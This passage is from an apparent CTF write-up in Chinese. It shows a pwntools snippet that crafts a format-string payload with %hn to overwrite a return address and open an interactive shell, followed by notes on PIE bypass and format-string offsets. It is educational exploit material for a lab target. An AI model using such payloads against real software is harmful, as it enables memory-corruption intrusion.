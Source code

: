 ```python
# payload2 = fmtstr_payload(8, {ret_addr: addr_changed},write_size='short')
payload2 = b"%"+str(addr_changed).encode() +b"c%10$hn"
payload2 = payload2.ljust(0x10,b'a')
payload2 += p64(ret_addr)

print(payload2)
fmt_attack(payload2)

sh.interactive()
```

收获：

- 注意分开栈中的`addr`和`value`的区别，用`%p`得到的是`value`，需要对地址上的值进行更改的时候需要的是`addr`
- `PIE`开启的情况下，通过对函数的返回地址减去偏移值可以直接得到`elf_base`，达到`PIE`绕过的操作
- x64系统的一个地址是占8个字节，修改的时候因为`PIE`的偏移差不多是后两个字节，也就是需要用`hn`来进行地址的修改
- 格式化字符串和栈溢出字符串不一样，是需要修改调用`**printf`函数的函数**的`rbp+8`的地址（比如说调用`printf`的`fmt_attack`函数的`rbp+8`
- 因为要覆盖改变的`rbp+8`在格式化字符串存储位置的后面，不能直接使用`fmtstr_payload`函数


